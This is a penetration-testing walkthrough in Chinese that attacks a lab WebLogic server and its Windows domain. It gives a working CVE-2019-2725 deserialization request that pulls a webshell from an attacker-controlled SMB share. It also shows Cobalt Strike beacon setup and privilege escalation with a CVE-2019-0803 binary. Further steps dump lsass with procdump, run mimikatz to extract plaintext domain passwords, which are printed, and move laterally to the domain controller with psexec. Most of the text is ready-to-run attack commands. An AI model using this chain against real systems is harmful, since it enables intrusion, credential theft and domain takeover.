


# weblogic域渗透笔记

## 环境

来源于https://mp.weixin.qq.com/s/uLlWJdcAc6MmUyuruHygNA，尊重人家作者，还是自己去问人家要吧

## 配置


## nmap扫描

常用端口是开放状态1433是mssql，7001我们知道是weblogic服务，因为我们前面手工开启的。


看到7001，打开以后是weblogic，找到WeblogicScan工具扫一下。

https://github.com/rabbitmask/WeblogicScan

```cmd
python3 WeblogicScan.py 192.168.111.80 7001
```

发现两个漏洞，我们使用CVE-2019-2725即可，该漏洞方便我们拿到shell


CVE-2019-2725漏洞描述：这是一个Weblogic反序列化远程代码执行漏洞。部分版本WebLogic中默认包含的wls9_async_response包，为WebLogic Server提供异步通讯服务。由于该WAR包在反序列化处理输入信息时存在缺陷，攻击者可以发送精心构造的恶意 HTTP 请求，获得目标服务器的权限，在未授权的情况下远程执行命令。

## 启动smbserver共享文件服务

```
mpacket-smbserver  share /root/桌面/Behinder/server &
```

## 打爆weblogic


百度搞个poc发包就完事了，把冰蝎下面shell.jsp搞过去

```xml
POST /_async/AsyncResponseService HTTP/1.1
Host: 192.168.111.80:7001
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Length: 841
SOAPAction:
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>cmd</string>
</void>
<void index="1">
<string>/c</string>
</void>
<void index="2">
<string>copy \\192.168.111.5\share\shell.jsp servers\AdminServer\tmp\_WL_internal\bea_wls9_async_response\8tpkys\war\1.jsp
</string>
</void>
</array>
<void method="start"/></void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body></soapenv:Envelope>

```

启动冰蝎

```cmd
java -jar Behinder_v3.0_Beta6_linux.jar &
```


上线成功


whoami发现低权限


查看系统补丁


```cmd
shell systeminfo
```


查询一下http://blog.neargle.com/win-powerup-exp-index/，后面要用到


接下来为了方便，cs上线

启动cs服务器，密码是123456

```
./teamserver 192.168.111.5 123456  &
```

启动客户端

```
./start.sh &
```

输入密码


接下来添加个监听器




通过冰蝎或者原来的poc上传即可


接下来去冰蝎命令窗口执行这个exe上线cs，运行web.exe即可


sleep 2设置与服务器交互时间降低

输入

```cmd
beacon> shell dir
```

得到当前目录

```cmd
C:\Oracle\Middleware\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\bea_wls9_async_response\8tpkys\war>
```

后期使用cs上传相关利用工具到此目录，在实际渗透中，最好将一些利用工具上传到比较隐蔽的位置。

查看当前用户身份，发现是WEB\de1ay普通用户


## 提权

下载https://github.com/k8gege/K8tools/raw/master/CVE-2019-0803.exe，我们利用Win32K组件提权，使用cs上传相关利用工具到目标机

```cmd
beacon>upload /root/CVE-2019-0803.exe
beacon>upload /root/mimidrv.sys
beacon>upload /root/mimikatz.exe
beacon>upload /root/mimilib.dll
beacon>upload /root/procdump64.exe
```

成功上传


注：procdump是微软官方的工具，用于导出进程内存，不会报毒被杀


执行

```cmd
beacon> shell CVE-2019-0803.exe cmd "start web.exe
```

返回SYSTEM权限的shell

 

## 使用 procdump64+mimikatz 获取 win 用户明文密

`procdump64.exe` 介绍：它的主要目的是监控应用程序的 CPU 异常动向, 并在此异常时生成 crash dump 文件, 供研发人员和管理员确定问题发生的原因。

`lsass.exe` 进程概述： lsass.exe 是一个系统进程，用于微软 Windows 系统的安全机制。它用于本地安全和登陆策略。也就是说 lsass.exe 进程运行后，里面会保存用户帐号和密码信息

基于刚获取的 SYSTEM 权限，来获取到 lsass.exe 进程的内存文件。lsass.exe 内存文件中会存储明文登录密码


```cmd
beacon> shell procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

参数说明

```
-accepteula 参数：指定是否自动接受 Microsoft 软件许可条款。所有无人参与安装都需要此设置。 -ma 参数：生成 full dump, 即包括进程的所有内存. 默认的dump格式包括线程和句柄信息.
```

解密，这里数字卫士没有拦击并不说明 mimikatz 是免杀的，实际环境如果 mimikatz 不是免杀的需 要将 lsass.dmp 文件拖回本地放至相同的系统中进行解密。

```cmd
shell mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"  "exit"> password.txt
```

直接使用 download 命令下载，下载后会保存到程序目录的 downloads 目录。

之后进入kali的downloads目录是随即名




因此

目前得到账户信息：

 域用户名： de1ay\mssql 密码： 1qaz@WSX 

域用户名： de1ay\administrator 密码： 1qaz@WSX #这是 DC 域管理员用户和密码 

本地用户名： WEB\de1ay 密码：Y4tacker 该用户是系统本地登录系统用的。


查看网络信息找到域控，一般情况下DNS服务器很有可能就是域控

```cmd
beacon> shell ipconfig /all
```


DNS 服务器 10.10.10.10 也就是域控。 查看域控制器

```cmd
beacon> shell net group "domain controllers" /domain
```


```cmd
beacon> shell ping DC
```

ping通了确实成功

接下来查看域管理员：

```cmd
shell net group "domain admins" /domain
```


## 生成管理帐号密码用户凭证-连接域控服务器-反弹域控 shel

回到控制目标主机的初始用户账户下，使用`rev2self` 移除令牌

```
 beacon> rev2self 
```

查看当前的用户： 

```
beacon> getuid
```


通过前面获取到的 DC 的 DE1AY\administrator 账户信息，生成新的凭证

```cmd
beacon> make_token DE1AY\administrator 1qaz@WSX
```


创建新的监听实现中转，便于通过命名管道 psexec 通过 SMB Listener 横向过去。

名称就叫 smb 记好了这个后面会用。


DC 上线，jump 会使用前面的凭证和 smb 监听器，完成登录 DC 的过程接下来

jump psexec 横向移动

```cmd
 beacon> jump psexec DC smb
 
 或：jump psexec 10.10.10.10 smb #目标机器可以是 DC 主机名，也可以是 IP
```


域控上线


ok结束


## 参考文章

https://www.adminxe.com/794.html

http://blog.leanote.com/post/snowming/8b7ce0f84c03

https://blog.csdn.net/qq_37683287/article/details/108227136

https://teamssix.com/200419-150600.html#toc-heading-3